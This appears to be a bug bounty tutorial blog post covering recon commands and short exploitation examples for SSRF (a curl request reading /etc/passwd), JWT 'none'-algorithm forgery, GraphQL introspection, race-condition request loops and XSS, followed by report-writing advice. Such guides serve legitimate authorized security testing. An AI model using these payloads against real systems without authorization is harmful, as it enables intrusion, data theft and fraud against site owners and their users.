 ```yaml
---
title: "Bug Bounty Roadmap: A Step-by-Step Guide for 2025"
date: 2025-03-15
description: "A practical guide to approaching a bug bounty target, finding vulnerabilities, and exploiting common bugs in 2025."
---
```


Bug bounty hunting remains a lucrative and exciting field in 2025. This guide provides a structured approach to hacking a target, the types of vulnerabilities that are still common, and how to exploit them. 

## 1. Understanding the Target

Before diving into active reconnaissance, start with a passive approach:

### Passive Recon
- **Google Dorking**: Use search operators like:
  ```bash
  site:target.com intitle:"index of"
  site:target.com ext:log
  ```
- **Wayback Machine**: Check archived versions for exposed endpoints.
- **GitHub Recon**:
  ```bash
  github-subdomains -d target.com
  ```
  Look for API keys and secrets in GitHub repositories.

### Active Recon
- **Subdomain Enumeration**:
  ```bash
  subfinder -d target.com | httprobe
  amass enum -d target.com
  ```
- **Port Scanning**:
  ```bash
  nmap -p- -sC -sV target.com
  ```
- **Directory Enumeration**:
  ```bash
  ffuf -w wordlist.txt -u https://target.com/FUZZ -fc 403
  ```

## 2. Common Vulnerabilities & Exploits in 2025

### 2.1. Server-Side Request Forgery (SSRF)
**What?** An attacker forces the server to make HTTP requests on their behalf.

**Where to look?**
- Image upload features.
- Webhooks and API integrations.

**Exploitation Example:**
```bash
curl -X POST https://target.com/api/fetch -d 'url=file:///etc/passwd'
```

### 2.2. JSON Web Token (JWT) Attacks
**What?** JWTs used for authentication can be tampered with.

**Where to look?**
- Login authentication mechanisms.

**Exploitation Example:**
```bash
jwt_tool token.jwt -I -S -d
```
If `none` algorithm is supported, modify and resign:
```json
{
  "alg": "none",
  "typ": "JWT"
}
```

### 2.3. GraphQL Injections
**What?** Overly permissive GraphQL APIs expose sensitive data.

**Where to look?**
- `https://target.com/graphql` endpoint.

**Exploitation Example:**
```graphql
{
  __schema {
    types {
      name
    }
  }
}
```

### 2.4. Race Conditions
**What?** Executing multiple requests simultaneously to bypass restrictions.

**Where to look?**
- Password reset mechanisms.
- Gift card redemption systems.

**Exploitation Example:**
```bash
while true; do curl -X POST https://target.com/redeem -d "code=FREE100"; done
```

### 2.5. DOM-based XSS
**What?** JavaScript manipulation leading to client-side attacks.

**Where to look?**
- User input reflected in JS variables.

**Exploitation Example:**
```html
<script>alert(document.domain)</script>
```

## 3. Post-Exploitation and Reporting

### Gaining Further Access
- If you find **LFI**, escalate to **RCE**.
- If you find **IDOR**, combine it with **Privilege Escalation**.

### Writing a Good Report
- Include **POC (Proof of Concept)** videos.
- Detail the **impact** of the vulnerability.
- Suggest **mitigations**.

### Example Report Structure
```
# Vulnerability: SSRF in Webhook Function

## Description
The webhook endpoint allows external URL requests without proper validation.

## Steps to Reproduce
1. Send a POST request to the webhook endpoint with an internal IP.
2. Observe that internal services are accessible.

## Impact
This vulnerability allows access to internal resources, leading to potential RCE.

## Suggested Fix
Validate user-supplied URLs and restrict internal IP ranges.
```

## 4. Essential Tools for Bug Bounty Hunters

- **Burp Suite** - HTTP interception & automation.
- **FFUF** - Directory fuzzing.
- **Nuclei** - Automated vulnerability scanning.
- **Subfinder & Amass** - Subdomain enumeration.
- **JWT Tool** - JWT attacks.
- **GraphQLmap** - GraphQL testing.

## 5. Conclusion
Bug bounty hunting in 2025 still requires creativity and persistence. While automation helps, a hacker's mindset is irreplaceable. Keep learning, keep testing, and most importantly, have fun hacking!

---

*This article is regularly updated with new methodologies and emerging threats in bug bounty hunting. Stay tuned!*
